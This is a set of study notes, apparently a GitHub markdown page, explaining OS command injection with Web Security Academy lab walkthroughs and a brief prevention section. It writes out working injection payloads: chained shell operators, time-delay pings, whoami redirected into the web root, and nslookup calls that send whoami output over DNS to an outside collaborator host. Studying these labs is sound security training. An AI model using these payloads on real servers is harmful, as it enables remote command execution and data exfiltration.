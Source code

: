 # OS command injection

It's about injecting commands  on the server which is running an application and fully compromise the data as well as application.

If a application usages the following request to view the stock 

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

In the background something like  the following code might be running

```
stockreport.pl 381 29
```

As there is no defence again OS command injection attacker could run 


```
& echo aiwefwlguh &
```

which may give the following error 

```
Error - productID was not provided
aiwefwlguh
29: command not found
```


## Useful commands  
| Purpose of Command        | Linux        | Windows         |  
|---------------------------|--------------|-----------------|  
| Name of current user      | `whoami`     | `whoami`        |  
| Operating system          | `uname -a`   | `ver`           |  
| Network configuration     | `ifconfig`   | `ipconfig /all` |  
| Network connections       | `netstat -an`| `netstat -an`   |  
| Running processes         | `ps -ef`     | `tasklist`      |  
 



## Blind OS command injection vulnerabilities

Most of the instances are based on blind OS command injection which means, there is no response return from the command within it's `HTTP` response. 


Let's say and feedback application is being using where email is being sent using mail command.

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

The output from the mail command is not returned on the application's responses. 

**Detecting blind OS command injection using time delays**

We can use time delay to check if os command is being executated or not, One of the best method is to use `ping` command as it will let us specify the number of ICMP packets to sent.

```
& ping -c 10 127.0.0.1 &
``` 
This command causes the application to ping its loopback network adapter for 10 seconds. 

## Exploiting blind OS command injection by redirecting output

If an application is serving files from `/var/www/static` we can redirect the output of the command to the static directory 

```
& whoami /var/www/static/0xtheM7.txt &
```


## Exploiting blind OS command injection using out-of-band (OAST) techniques

We can inject command that will tirgger an out of bound network interaction 

```
& nslookup himansu.com.np &
```

```
& nslookup 0xthem7.xyz &
```


## Ways of injecting OS commands

Characters used for both unix based system and windows which can be chained together.


```
&
&&
|
||
```
Commands for unix based system only

```
;
```
```
Newline (0x0a or \n) 
```

To perform inline command injection the following characters can be used.

```
`
```

```
$
```

Sometimes the output comes with `"` or `'` which could block the attack in this situation you may need to use the [meta characters](https://en.wikipedia.org/wiki/Metacharacter) according to the shell.


# Labs
## Lab: OS command injection, simple case

Check the stock and send the following request 
```
POST / product / stock HTTP / 2
Host: 0 a240078040afaa68551a563009200e3.web - security - academy.net
Cookie: session = QVkvVxREjzeXTb4B1zF470CS39mKcuhx
User - Agent: Mozilla / 5.0(X11; Linux x86_64; rv: 138.0) Gecko / 20100101 Firefox / 138.0
Accept: *
/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a240078040afaa68551a563009200e3.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0a240078040afaa68551a563009200e3.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=2&storeId=1;whoami
```

## Lab: Blind OS command injection with time delays

Payload used to solve the lab 

```
email=x||ping+-c+10+127.0.0.1||
```

Assuming this is injected into a parameter (`email`) in a backend system that uses it unsafely like:

```
somecommand --email=$email
```

Email is being controlled by attacker as we are filling the form


```
email=x||ping+-c+10+127.0.0.1||
```

It get's split in 

`x` → just a placeholder or dummy value

`||` → logical OR in the shell

`ping` -c 10 127.0.0.1 → ping localhost 10 times

`||` → another OR (used to chain commands or ensure execution)



As `email=x` is going to fail ping command will be triggered. 

You can also run on your terminal 

```
0xtheM7 || whoami
```

```
echo 0xtheM7 || whomami
```

The first command will run `whoami` as there is no command such as `0xtheM7` or Logical OR will run `whoami` command but in case of second on we wil be runngin `echo` command 



## Lab: Blind OS command injection with output redirection

Payload used to solve the lab 

```
csrf=2g6DRob8aEXHozDiwXDVj2UERt46YtmP&name=Coolcool&email=x||whoami+>+/var/www/images/0xtheM7.txt||&subject=cool&message=cool
```

The we fetched the output over 

https://YOURINSTANCE//image?filename=0xtheM7.txt


## Lab: Blind OS command injection with out-of-band interaction

Payload used to solve the lab 


```
csrf=vGk1Dn16qDq6NL7e0FV7fWmNmPOLMzFX&name=Himansu&email=x||nslookup+ld2qv0chx7z7doolkvdjryla117svij7.oastify.com||&subject=Cool&message=Cool
```

In this we have used the same bypass mechanism however we used internal command `nslookup` so that we can find out it it's hitting out server or not. 

## Lab: Blind OS command injection with out-of-band data exfiltration 
Payload used to solve the lab 


```
csrf=rcLcNvCAFojt490aCvcJ520UERrBXVly&name=Coool&email=x||nslookup+`whoami`.q3uvl52mncpc3teqa03oh3bfr6xxlq9f.oastify.com||&subject=Cool&message=Cool
```

Here we ran command ```whoami``` using backtick ``` `whoami` ``` which is used to run inline command and thus complete DNS query become 

```
{outputOfWhoami}.q3uvl52mncpc3teqa03oh3bfr6xxlq9f.oastify.com
```

And under the collaborator we could find the username which eventually solved the lab.




# Prevention 

1. Never use the os command you can find some alternative or you can use sandbox 

2. User strong input validation 
3. Validating sytax, characters,  or whitespaces.

